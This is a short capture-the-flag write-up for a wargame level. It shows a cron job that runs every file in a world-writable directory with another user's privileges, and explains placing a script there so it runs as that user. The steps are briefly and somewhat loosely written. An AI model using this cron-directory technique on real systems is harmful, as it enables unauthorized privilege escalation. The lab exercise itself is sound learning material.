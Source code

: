 ## Level 05

When connecting to level 05, the message "You have new mail" appears on the standard output. Upon further investigation, we find a directory `/rofs/var/mail` which contains a file named `level05`. This file corresponds to a cron job:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This job runs the mentioned script every 2 minutes with `flag05`'s privileges. The script looks like this:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

It executes and deletes all the files contained in the specified directory. Therefore, we can have `flag05` execute a file by placing it in that directory. For example, use the following commands:

```bash
getflag > /tmp/flag.txt
chmod +x script.sh
```

After 2 minutes, we can check the directory, and the file will contain the result of the `getflag` command.
